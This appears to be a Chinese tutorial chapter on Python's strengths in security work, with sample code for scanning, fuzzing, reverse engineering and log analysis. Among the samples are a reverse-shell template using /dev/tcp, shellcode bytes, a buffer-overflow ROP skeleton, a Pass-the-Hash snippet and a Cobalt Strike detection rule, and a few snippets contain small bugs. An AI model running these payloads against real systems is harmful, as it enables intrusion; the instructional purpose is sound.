

## 一、Python在安全领域的优势

在网络安全从业者的技术栈中，Python 几乎是唯一一门同时满足"快速原型开发"和"生产级工具构建"两个需求的语言。从渗透测试人员编写 PoC 到安全研究员开发 Fuzzing 框架，从 SOC 分析师编写日志解析脚本到红队构建 C2 基础设施，Python 的身影无处不在。本节从语言特性、生态系统、应用领域、性能边界和与其他语言的对比五个维度，系统阐述 Python 在安全领域的核心优势与适用边界。

### 1.1 为什么选择Python

选择一门语言用于安全工作，本质上是在"开发效率"和"运行效率"之间做权衡。Python 在这个光谱上偏向开发效率端，而安全工作的特殊性恰好需要这种偏向——安全工具的生命周期通常较短、目标环境变化频繁、需要快速迭代和修改。

#### 1.1.1 语言特性优势

**简洁易读的语法**

Python 以缩进定义代码块，强制要求代码结构清晰。这不是一个装饰性的优点——在安全工具开发中，代码的可读性直接决定了团队协作效率和漏洞修复速度。一个 50 行的 Python 端口扫描器，其逻辑一目了然，而等价的 C 实现可能需要 200 行以上，其中大量代码用于内存管理和错误处理。

```python
# Python：10行完成TCP端口扫描的核心逻辑
import socket

def scan_port(host: str, port: int, timeout: float = 1.0) -> bool:
    """扫描单个端口是否开放"""
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(timeout)
            return sock.connect_ex((host, port)) == 0
    except (socket.error, OSError):
        return False
```

对比等价的 C 语言实现：

```c
// C语言：同样的功能需要更多样板代码
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <errno.h>

int scan_port(const char *host, int port, int timeout_sec) {
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock < 0) return -1;

    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(port);
    inet_pton(AF_INET, host, &addr.sin_addr);

    struct timeval tv = {.tv_sec = timeout_sec};
    setsockopt(sock, SOL_SOCKET, SO_SNDTIMEO, &tv, sizeof(tv));

    int result = connect(sock, (struct sockaddr *)&addr, sizeof(addr));
    close(sock);
    return result == 0 ? 1 : 0;
}
```

差异一目了然：Python 版本省去了 socket 地址结构体构造、字节序转换、文件描述符手动关闭等底层细节，将全部注意力集中在"扫描逻辑"本身。

**动态类型与鸭子类型**

Python 的动态类型系统允许安全研究者快速编写脚本而无需声明变量类型。在漏洞利用开发中，这种灵活性尤为重要——你可能需要在运行时动态构造不同类型的 Payload，处理来源不确定的网络数据，并根据目标环境的响应灵活调整攻击逻辑。

```python
# 动态类型让Payload构造变得灵活
def build_payload(target_os: str, command: str) -> bytes:
    """根据目标操作系统动态构建Payload"""
    if target_os == "windows":
        # Windows: cmd.exe /c 前缀
        payload = b"\xfc\x48\x83\xe4\xf0"  # shellcode前缀
        payload += command.encode("utf-16-le")
    elif target_os == "linux":
        # Linux: /bin/sh 执行
        payload = f"exec /bin/sh -c '{command}'".encode()
    else:
        # 通用反弹shell模板
        payload = f"bash -i >& /dev/tcp/{command} 0>&1".encode()
    return payload
```

**标准库覆盖面广**

Python 标准库中与安全编程直接相关的模块数量远超其他主流语言：

| 标准库模块 | 安全用途 | 典型场景 |
|-----------|---------|---------|
| `socket` | 底层网络通信 | 端口扫描、自定义协议实现 |
| `ssl` | TLS/SSL 通信 | HTTPS 请求、证书验证 |
| `hashlib` | 哈希计算 | 密码散列、文件完整性校验 |
| `hmac` | 消息认证码 | API 签名、令牌验证 |
| `secrets` | 安全随机数 | Token 生成、密钥派生 |
| `subprocess` | 进程调用 | 工具集成、命令执行 |
| `ctypes` | C 库调用 | 调用系统 API、注入 DLL |
| `struct` | 二进制数据打包 | 协议解析、文件格式处理 |
| `logging` | 日志记录 | 安全审计、事件追踪 |
| `multiprocessing` | 多进程并行 | 大规模扫描、分布式任务 |
| `asyncio` | 异步 I/O | 高并发网络请求 |
| `json` / `xml` | 数据解析 | API 交互、配置解析 |
| `re` | 正则表达式 | 日志分析、漏洞模式匹配 |
| `base64` | 编码解码 | Payload 编码、数据传输 |
| `ipaddress` | IP 地址处理 | 网段计算、CIDR 解析 |

这意味着实现一个基础的端口扫描器或日志分析工具，你无需安装任何第三方依赖。

#### 1.1.2 生态系统优势

**第三方安全库矩阵**

Python 安全生态的深度和广度是其最核心的竞争力。以下按安全工作流的各个阶段，列出关键第三方库及其定位：



**核心安全库详解（附代码示例）**：

| 库名 | 安装命令 | 核心能力 | 一句话定位 |
|------|---------|---------|-----------|
| `pwntools` | `pip install pwntools` | ELF 解析、ROP 链构造、远程交互、Shellcode 生成 | CTF/PWN 题的瑞士军刀 |
| `scapy` | `pip install scapy` | 任意网络包构造、嗅探、协议实现 | "用 Python 写 TCP/IP" |
| `impacket` | `pip install impacket` | SMB/RPC/Kerberos/NTLM 协议攻击 | Windows 渗透的基石 |
| `frida` | `pip install frida-tools` | 进程注入、函数 Hook、内存读写 | 移动安全与逆向必备 |
| `capstone` | `pip install capstone` | 多架构反汇编（x86/ARM/MIPS/...） | 反汇编引擎 |
| `angr` | `pip install angr` | 符号执行、约束求解、路径探索 | 自动化漏洞发现 |
| `volatility3` | `pip install volatility3` | 内存转储分析、进程/网络/注册表提取 | 数字取证标准工具 |
| `yara-python` | `pip install yara-python` | 恶意软件特征规则匹配 | 威胁检测规则引擎 |
| `cryptography` | `pip install cryptography` | 对称/非对称加密、证书、密钥派生 | 工业级加密实现 |
| `requests` | `pip install requests` | HTTP 请求、Session、Cookie、代理 | Web 安全的基石 |

**与主流安全工具的集成**

Python 不仅能独立构建工具，还能作为"胶水语言"将多个安全工具串联成自动化流水线：

```python
# 示例：Python集成Nmap + Shodan + 自定义报告
import nmap
import shodan
import json

def recon_target(target: str, shodan_api_key: str) -> dict:
    """多源信息收集：Nmap本地扫描 + Shodan被动信息"""
    result = {"target": target, "ports": [], "shodan": {}}

    # Nmap 主动扫描
    scanner = nmap.PortScanner()
    scanner.scan(target, arguments="-sV -T4 --top-ports 1000")
    for port in scanner[target].all_tcp():
        service = scanner[target]["tcp"][port]
        result["ports"].append({
            "port": port,
            "state": service["state"],
            "service": service["name"],
            "version": service.get("version", "")
        })

    # Shodan 被动查询
    api = shodan.Shodan(shodan_api_key)
    try:
        host = api.host(target)
        result["shodan"] = {
            "os": host.get("os", "Unknown"),
            "vulns": host.get("vulns", []),
            "ports": host.get("ports", [])
        }
    except shodan.APIError:
        result["shodan"] = {"error": "查询失败"}

    return result
```

**社区支持深度**

Python 安全社区的活跃度体现在几个量化指标上：

- **GitHub 上的安全仓库**：仅搜索 `security python` 就有超过 10 万个仓库，其中 Impacket（13k+ stars）、Pwntools（6k+ stars）、Scapy（10k+ stars）等均为业界标准工具
- **PyPI 安全类包数量**：与信息安全直接相关的包超过 3000 个
- **漏洞 PoC 首选语言**：Exploit-DB 和 GitHub 上公开的漏洞 PoC，超过 70% 使用 Python 编写
- **安全认证教材**：OSCP、CEH、GPEN 等主流安全认证的课程材料均以 Python 为主要教学语言

#### 1.1.3 跨平台特性

**操作系统兼容性**

Python 在安全工具的跨平台部署上具有天然优势。同一份扫描脚本可以在 Kali Linux 上用于渗透测试，也可以在 Windows 工作站上用于内部审计，还可以在 macOS 上用于开发调试，无需任何代码修改。

| 平台 | 安全工具发行版 | Python 支持 | 典型场景 |
|------|-------------|------------|---------|
| Kali Linux | 预装 Python + 数百个安全工具 | 完整支持 | 渗透测试、红队 |
| Parrot OS | 预装 Python 安全工具集 | 完整支持 | 安全审计 |
| Windows | 需手动安装 | 完整支持 | 内网渗透、AD 攻击 |
| macOS | 通过 Homebrew 安装 | 完整支持 | 开发调试 |
| ARM 设备 | Kali ARM 版 | 完整支持 | IoT 测试、物理渗透 |
| Docker | 官方 Python 镜像 | 完整支持 | CI/CD、自动化扫描 |

**架构支持**

在渗透测试中，你经常需要在不同的目标架构上运行 Payload 或分析二进制文件。Python 配合 `capstone`（反汇编）和 `keystone`（汇编）可以处理 x86、x64、ARM、ARM64、MIPS、PowerPC、SPARC 等几乎所有主流架构的机器码：

```python
from capstone import Cs, CS_ARCH_X86, CS_MODE_64

# 用Python反汇编x64 shellcode
shellcode = b"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05"
md = Cs(CS_ARCH_X86, CS_MODE_64)
for insn in md.disasm(shellcode, 0x1000):
    print(f"0x{insn.address:x}:\t{insn.mnemonic}\t{insn.op_str}")
```

### 1.2 Python安全应用领域

Python 在安全领域的应用远不止"写脚本"。从攻防两端到安全运营，从底层二进制到上层 Web 应用，Python 覆盖了安全工作的全生命周期。

#### 1.2.1 渗透测试工具

渗透测试是 Python 在安全领域最广泛的应用场景。按渗透测试的标准流程（侦察 → 扫描 → 利用 → 后渗透 → 报告），Python 工具覆盖了每一个阶段。

**信息收集（Reconnaissance）**

信息收集是渗透测试的第一步，也是决定后续攻击路径的关键阶段。Python 在这一阶段的优势在于能将多种数据源的信息自动关联和聚合：

```python
# 实战示例：子域名枚举 + 存活探测 + 端口扫描的流水线
import asyncio
import httpx
from ipaddress import ip_network

async def check_subdomain(domain: str, subdomain: str) -> dict | None:
    """异步检测子域名是否存活"""
    url = f"http://{subdomain}.{domain}"
    async with httpx.AsyncClient(timeout=5, follow_redirects=True) as client:
        try:
            resp = await client.get(url)
            return {"subdomain": f"{subdomain}.{domain}", "status": resp.status_code}
        except (httpx.RequestError, httpx.TimeoutException):
            return None

async def enumerate_subdomains(domain: str, wordlist: list[str]) -> list[dict]:
    """并发枚举子域名"""
    tasks = [check_subdomain(domain, sub) for sub in wordlist]
    results = await asyncio.gather(*tasks)
    return [r for r in results if r is not None]

# 使用示例
# subs = asyncio.run(enumerate_subdomains("example.com", ["www", "mail", "api", "dev"]))
```

典型工具及其 Python 实现：

| 工具类型 | 代表工具 | Python 实现思路 |
|---------|---------|---------------|
| 子域名枚举 | Sublist3r, Amass | 多源聚合：字典爆破 + 搜索引擎 + 证书透明度日志 |
| 端口扫描 | Masscan, Nmap | socket 并发连接或 Scapy 构造 SYN 包 |
| 目录扫描 | dirsearch, gobuster | httpx 异步并发 + 字典文件 |
| 指纹识别 | Wappalyzer, WhatWeb | HTTP 响应头分析 + 特征库匹配 |
| WHOIS 查询 | whois | python-whois 库解析 WHOIS 记录 |

**漏洞利用（Exploitation）**

Python 在漏洞利用阶段的价值在于快速将漏洞原理转化为可执行的利用代码。绝大多数公开的漏洞 PoC 都是 Python 编写的，原因是：

1. 快速原型能力——从发现漏洞到写出 PoC 可以在几小时内完成
2. 网络库完善——socket、requests、scapy 覆盖了所有协议交互需求
3. 二进制处理能力——struct、ctypes、pwntools 让二进制漏洞利用变得可行
4. 跨平台——同一份 PoC 可以在不同系统上运行

```python
# 示例：CVE 缓冲区溢出 PoC 的骨架结构
from pwn import *

def exploit(target_ip: str, target_port: int):
    """缓冲区溢出利用示例骨架"""
    # 1. 确定偏移量（使用 pwntools 的 cyclic 模式）
    offset = 76  # 通过 cyclic_find() 确定

    # 2. 构造 ROP 链
    elf = ELF("./vulnerable_binary")
    rop = ROP(elf)
    rop.call(elf.symbols["system"], [next(elf.search(b"/bin/sh"))])

    # 3. 组装 Payload
    payload = b"A" * offset
    payload += rop.chain()

    # 4. 发送 Payload
    conn = remote(target_ip, target_port)
    conn.sendline(payload)
    conn.interactive()
```

**后渗透（Post-Exploitation）**

获得初始访问后，Python 可以用于权限提升、横向移动、凭据收集和持久化。Impacket 库是 Windows 后渗透的核心工具集：

```python
# 示例：使用 Impacket 进行 Pass-the-Hash 横向移动
from impacket.smbconnection import SMBConnection

def lateral_move_hash(target_ip: str, username: str, ntlm_hash: str):
    """使用 Pass-the-Hash 进行横向移动"""
    lm_hash, nt_hash = ntlm_hash.split(":")
    conn = SMBConnection(target_ip, target_ip)
    conn.login(username, "", lmhash=bytes.fromhex(lm_hash),
               nthash=bytes.fromhex(nt_hash))

    # 列出共享资源
    shares = conn.listShares()
    for share in shares:
        print(f"Share: {share['shi1_netname']} — {share['shi1_remark']}")
```

#### 1.2.2 安全研究

**逆向工程**

Python 是逆向工程领域的"脚本层"标准语言。IDA Pro、Ghidra、Binary Ninja 等主流逆向工具都提供 Python API：

| 逆向工具 | Python API | 用途 |
|---------|-----------|------|
| IDA Pro | IDAPython | 自动化分析、脚本化反编译、批量标注 |
| Ghidra | GhidraScript (Jython) + Pyhidra | 自动化逆向、插件开发 |
| Binary Ninja | Binary Ninja Python API | 中间语言分析、自动化脚本 |
| Radare2/rizin | r2pipe | 命令行逆向自动化 |
| angr | 原生 Python | 符号执行、路径探索、漏洞自动发现 |

```python
# 示例：使用 Capstone + Keystone 进行指令修补（Patch）
from capstone import *
from keystone import Ks, KS_ARCH_X86, KS_MODE_64

def patch_instruction(original_bytes: bytes, address: int,
                      new_asm: str) -> bytes:
    """将指定地址的指令替换为新的汇编指令"""
    # 反汇编原始指令，确定长度
    md = Cs(CS_ARCH_X86, CS_MODE_64)
    original_insn = next(md.disasm(original_bytes, address))
    orig_len = original_insn.size

    # 汇编新指令
    ks = Ks(KS_ARCH_X86, KS_MODE_64)
    new_bytes, _ = ks.asm(new_asm, address)

    # 长度校验：新指令不能比原始指令长
    if len(new_bytes) > orig_len:
        raise ValueError(f"新指令长度 {len(new_bytes)} 超过原始长度 {orig_len}")

    # NOP 填充剩余空间
    patched = bytes(new_bytes) + b"\x90" * (orig_len - len(new_bytes))
    return patched
```

**漏洞研究与 Fuzzing**

Fuzzing 是发现软件漏洞的核心技术，Python 因其灵活性成为构建 Fuzzing 框架的首选语言：

- **AFL++ 的 Python 绑定**：用于覆盖率引导的 Fuzzing
- **boofuzz**：基于 Sulley 的网络协议 Fuzzing 框架
- **atheris**：Google 开发的 Python 代码 Fuzzing 引擎
- **Fuzzilli**（Swift 编写但有 Python 编排层）：JavaScript 引擎 Fuzzer

```python
# 示例：使用 boofuzz 进行 HTTP 协议 Fuzzing
from boofuzz import *

def fuzz_http_request():
    """对 HTTP 请求进行基本的 Fuzzing"""
    session = Session(target=TargetConnection(host="192.168.1.100", port=80))

    s_initialize("HTTP_GET")
    s_static("GET ")
    s_string("/index.html", fuzzable=True)   # Fuzz URL 路径
    s_static(" HTTP/1.1\r\n")
    s_static("Host: ")
    s_string("192.168.1.100", fuzzable=True)  # Fuzz Host 头
    s_static("\r\n")
    s_static("User-Agent: ")
    s_string("Mozilla/5.0", fuzzable=True)    # Fuzz UA
    s_static("\r\n\r\n")

    session.connect(s_get("HTTP_GET"))
    session.fuzz()
```

**恶意软件分析**

Python 在恶意软件分析中扮演两个角色：一是作为分析工具的开发语言（Volatility、YARA），二是作为恶意样本行为模拟的脚本语言。

```python
# 示例：使用 YARA 规则扫描恶意文件
import yara

# 编译规则
rules = yara.compile(source='''
rule CobaltStrike_Beacon {
    meta:
        description = "检测 Cobalt Strike Beacon Shellcode"
        author = "Security Analyst"
    strings:
        $beacon_config = { 69 68 69 68 69 6B }
        $sleep_mask = { 4C 8B 53 08 45 8B 0A 45 8B 5A 04 4D 8D 52 08 }
    condition:
        uint16(0) == 0x5A4D and ($beacon_config or $sleep_mask)
}
''')

# 扫描文件
for match in rules.match("/path/to/suspicious.exe"):
    print(f"匹配规则: {match.rule}")
    for string in match.strings:
        print(f"  偏移 {hex(string[0])}: {string[1]} = {string[2][:32]}...")
```

#### 1.2.3 安全运营（SecOps）

安全运营是 Python 在企业安全中最成熟的应用领域。SOC 团队每天面对海量的安全事件、日志和告警，Python 脚本是将这些原始数据转化为可执行情报的核心手段。

**日志分析与威胁检测**

```python
# 实战示例：从 Windows 安全日志中检测暴力破解
from collections import defaultdict
from datetime import datetime

def detect_brute_force(log_entries: list[dict],
                       threshold: int = 5,
                       window_minutes: int = 5) -> list[dict]:
    """检测短时间内同一IP的多次登录失败"""
    failures = defaultdict(list)  # IP -> [timestamp, ...]
    alerts = []

    for entry in log_entries:
        if entry.get("event_id") == 4625:  # 登录失败
            src_ip = entry.get("src_ip", "unknown")
            failures[src_ip].append(entry["timestamp"])

    for ip, timestamps in failures.items():
        timestamps.sort()
        for i in range(len(timestamps)):
            window_end = timestamps[i] + timedelta(minutes=window_minutes)
            window_fails = [t for t in timestamps[i:] if t <= window_end]
            if len(window_fails) >= threshold:
                alerts.append({
                    "type": "brute_force",
                    "src_ip": ip,
                    "fail_count": len(window_fails),
                    "window_start": str(timestamps[i]),
                    "window_end": str(window_end),
                    "severity": "HIGH"
                })
                break  # 每个IP只报一次

    return alerts
```

**威胁情报自动化**

```python
# 示例：IOC（入侵指标）批量查询 VirusTotal
import httpx
import asyncio

async def check_ioc_virustotal(api_key: str, iocs: list[str]) -> list[dict]:
    """批量查询 IOC 在 VirusTotal 上的检测结果"""
    results = []
    base_url = "https://www.virustotal.com/api/v3"
    headers = {"x-apikey": api_key}

    async with httpx.AsyncClient(headers=headers) as client:
        for ioc in iocs:
            if "." in ioc and not ioc.replace(".", "").isdigit():
                endpoint = f"/domains/{ioc}"
            elif ":" in ioc or ioc.count(".") == 3:
                endpoint = f"/ip_addresses/{ioc}"
            else:
                endpoint = f"/files/{ioc}"

            try:
                resp = await client.get(f"{base_url}{endpoint}")
                data = resp.json()
                stats = data["data"]["attributes"]["last_analysis_stats"]
                results.append({
                    "ioc": ioc,
                    "malicious": stats.get("malicious", 0),
                    "suspicious": stats.get("suspicious", 0),
                    "harmless": stats.get("harmless", 0),
                    "undetected": stats.get("undetected", 0)
                })
            except Exception as e:
                results.append({"ioc": ioc, "error": str(e)})

    return results
```

**安全监控与自动化响应**

| 运营场景 | Python 实现方案 | 核心库 |
|---------|---------------|-------|
| SIEM 日志解析 | 结构化日志、提取关键字段 | `json`, `re`, `pandas` |
| 告警降噪 | 规则引擎、机器学习异常检测 | `scikit-learn`, `pandas` |
| 资产发现 | 定时扫描、资产指纹识别 | `nmap`, `scapy`, `httpx` |
| 漏洞管理 | CVE 订阅、扫描调度、修复跟踪 | `requests`, `apscheduler` |
| 合规检查 | 配置基线核查、自动化报告 | `paramiko`, `boto3`, `jinja2` |
| 事件响应 | 取证数据收集、时间线构建 | `volatility`, `yara` |

### 1.3 Python与其他安全语言的对比

选择编程语言不是信仰问题，而是工程决策。了解 Python 的适用边界，与了解它的优势同等重要。

#### 1.3.1 全方位语言对比

| 维度 | Python | Go | Rust | C/C++ | PowerShell | Bash |
|------|--------|-----|------|-------|-----------|------|
| **开发效率** | ★★★★★ | ★★★★ | ★★★ | ★★ | ★★★★ | ★★★ |
| **运行效率** | ★★ | ★★★★ | ★★★★★ | ★★★★★ | ★★ | ★★ |
| **网络编程** | ★★★★★ | ★★★★★ | ★★★★ | ★★★★ | ★★★ | ★★ |
| **二进制处理** | ★★★★ | ★★★ | ★★★★★ | ★★★★★ | ★ | ★ |
| **跨平台** | ★★★★★ | ★★★★★ | ★★★★★ | ★★★ | ★★ | ★★ |
| **并发能力** | ★★★ (GIL) | ★★★★★ | ★★★★★ | ★★★★ | ★★ | ★ |
| **生态成熟度** | ★★★★★ | ★★★★ | ★★★ | ★★★★★ | ★★★ | ★★★★ |
| **隐蔽性** | ★★ | ★★★★ | ★★★★★ | ★★★★★ | ★★★ | ★★ |
| **学习曲线** | 低 | 中 | 高 | 高 | 中 | 低 |
| **安全工具数量** | 极多 | 增长中 | 较少 | 极多 | Windows专用 | 脚本级 |

#### 1.3.2 何时选择 Python vs 其他语言

**选择 Python 的场景**：

- 编写 PoC 和漏洞利用的初始版本
- 快速原型开发和概念验证
- 日志分析、数据处理和报表生成
- 将多个工具串联成自动化流水线
- Web 安全测试（SQL 注入、XSS、SSRF）
- CTF 竞赛中的快速解题

**选择 Go 的场景**：

- 需要交叉编译为单个二进制文件（目标机器无 Python 环境）
- C2 框架和网络工具（隐蔽性需求）
- 高并发扫描器（Go 的 goroutine 比 Python 多线程效率高数倍）
- 云安全工具（Kubernetes 生态原生支持 Go）

**选择 Rust 的场景**：

- 对性能和安全性都有极致要求的场景
- 需要零运行时依赖的植入工具（Implant）
- 内存安全关键组件（解析器、加密模块）
- 规避安全产品检测（Rust 编译的二进制特征较少）

**选择 C/C++ 的场景**：

- 操作系统内核级别的安全工具（Rootkit、驱动）
- 需要直接操作内存的漏洞利用
- 高性能安全基础设施（IDS/IPS 引擎、WAF）
- 嵌入式设备和 IoT 固件分析

**选择 PowerShell 的场景**：

- 纯 Windows 环境的内网渗透
- Active Directory 攻击（原生 .NET 集成）
- AMSI 绕过和 Windows Defender 规避
- 后渗透阶段的信息收集（无需上传额外工具）

#### 1.3.3 Python 的性能瓶颈与应对策略

Python 最常被诟病的问题是运行效率。GIL（全局解释器锁）限制了多线程的并行能力，解释执行的方式也让 CPU 密集型任务比编译型语言慢 10-100 倍。

**瓶颈分析**：

| 瓶颈类型 | 影响场景 | 量化差异 |
|---------|---------|---------|
| GIL 限制 | 多线程 CPU 密集任务 | 线程并行无效，需用多进程 |
| 解释执行开销 | 密集计算（哈希破解、加密） | 比 C 慢 50-100 倍 |
| 内存占用 | 大数据集处理 | 比 Go/Rust 高 3-5 倍 |
| 启动时间 | 短生命周期脚本 | 比 Go 编译的二进制慢 10 倍 |

**应对策略**：

```python
# 策略1：用 C 扩展加速热点代码（ctypes 调用编译好的 C 库）
import ctypes
import os

# 假设有一个编译好的 C 库用于快速哈希计算
# lib = ctypes.CDLL("./fast_hash.so")
# lib.crack_hash.restype = ctypes.c_int

# 策略2：用 multiprocessing 突破 GIL
from multiprocessing import Pool

def cpu_intensive_task(chunk):
    """CPU密集型任务：暴力破解密码哈希"""
    # ... 每个进程独立运行，不受GIL限制
    pass

# 策略3：用 Cython/Numba JIT 编译热点代码
# @numba.jit(nopython=True)
# def fast_hash_compare(target_hash, candidates):
#     for c in candidates:
#         if sha256(c) == target_hash:
#             return c
#     return None

# 策略4：对于真正需要性能的场景，调用编译型二进制
import subprocess
result = subprocess.run(["hashcat", "-m", "0", "hash.txt", "wordlist.txt"],
                       capture_output=True, text=True)
```

**实用经验法则**：

- 网络 I/O 密集任务（扫描、爬虫）：Python 与其他语言性能差距极小，因为瓶颈在网络延迟
- CPU 密集任务（密码破解、加密运算）：优先调用编译型工具（hashcat、openssl）
- 大数据处理：用 pandas 替代纯 Python 循环，性能提升 10-100 倍
- 并发需求：异步 I/O（asyncio/httpx）优于多线程，多进程优于两者

### 1.4 Python安全开发的常见误区

即使是经验丰富的安全从业者，在使用 Python 时也容易踩入以下陷阱：

**误区 1：忽视异常处理**

```python
# ❌ 错误示范：裸 except 吞掉所有异常
def scan_port(host, port):
    try:
        sock = socket.socket()
        sock.connect((host, port))
        return True
    except:        # 吞掉 KeyboardInterrupt、SystemExit 等
        return False

# ✅ 正确示范：精确捕获异常，保留调试信息
def scan_port(host, port, timeout=1.0):
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(timeout)
            return sock.connect_ex((host, port)) == 0
    except (socket.timeout, ConnectionRefusedError, OSError):
        return False
    except KeyboardInterrupt:
        raise  # 不要吞掉 Ctrl+C
```

**误区 2：在安全工具中硬编码敏感信息**

```python
# ❌ 硬编码 API Key 和凭据
API_KEY = "sk-1234567890abcdef"
DB_PASSWORD = "admin123"

# ✅ 使用环境变量或配置文件
import os
API_KEY = os.environ.get("SHODAN_API_KEY")
if not API_KEY:
    raise ValueError("请设置 SHODAN_API_KEY 环境变量")
```

**误区 3：不设置网络超时**

```python
# ❌ 无超时设置，扫描可能挂起数小时
requests.get(f"http://{target}:{port}")  # 默认无超时

# ✅ 始终设置合理的超时
requests.get(f"http://{target}:{port}", timeout=5)
# 或使用 httpx
httpx.get(f"http://{target}:{port}", timeout=3.0)
```

**误区 4：线程安全问题**

```python
# ❌ 多线程共享列表，结果可能丢失
results = []
def scan(port):
    if is_open(port):
        results.append(port)  # 非线程安全

# ✅ 使用线程安全的数据结构
from queue import Queue
result_queue = Queue()

def scan(port):
    if is_open(port):
        result_queue.put(port)  # 线程安全
```

**误区 5：依赖未维护的安全库**

使用安全库前务必检查其维护状态。已停止维护的库可能存在未修复的安全漏洞：

- 检查最后一次 commit 时间（超过 2 年需谨慎）
- 检查是否有已知 CVE 未修复
- 检查 Python 版本兼容性（Python 2 only 的库应避免使用）

### 1.5 Python安全开发环境配置建议

一个良好的开发环境能显著提升安全工具的开发效率和代码质量。

**推荐工具链**：

| 工具 | 用途 | 配置建议 |
|------|------|---------|
| Python 3.11+ | 运行时 | 3.11 性能提升 10-60%，3.12+ 有更好的错误消息 |
| pyenv | 版本管理 | 管理多个 Python 版本，避免污染系统 Python |
| poetry / uv | 依赖管理 | 隔离项目依赖，生成 lock 文件保证可复现 |
| mypy | 类型检查 | 静态类型标注减少运行时错误 |
| ruff | 代码检查 | 比 flake8 快 100 倍，一体化 linting |
| pytest | 测试框架 | 安全工具也需要测试——未经测试的 PoC 可能产生破坏性后果 |

**虚拟环境最佳实践**：

```bash
# 使用 uv 创建隔离环境（速度比 pip 快 10-100 倍）
curl -LsSf https://astral.sh/uv/install.sh | sh
uv venv .venv && source .venv/bin/activate

# 安装安全工具常用依赖
uv pip install requests httpx scapy pwntools impacket
uv pip install yara-python capstone keystone-engine
uv pip install cryptography pycryptodome
```

### 1.6 总结

Python 在安全领域的优势可以归结为三个核心词：**快速**、**丰富**、**通用**。

- **快速**：从想法到可运行工具的路径最短，原型开发效率无可匹敌
- **丰富**：覆盖渗透测试、逆向工程、安全运营、恶意软件分析等全部安全子领域的工具生态
- **通用**：跨平台、跨架构、与几乎所有主流安全工具无缝集成

但 Python 不是万能的。在需要极致性能（密码破解）、极致隐蔽（红队植入）和极致安全（内存安全关键组件）的场景下，Go、Rust、C 等语言各有其不可替代的地位。一名成熟的安全工程师应该以 Python 为主力语言，同时根据具体场景选择最合适的工具。

> **核心认知**：Python 是安全工程师的"母语"，但不是唯一语言。掌握 Python 解决 80% 的安全问题，再用其他语言解决剩下的 20%，这才是正确的技术栈构建策略。
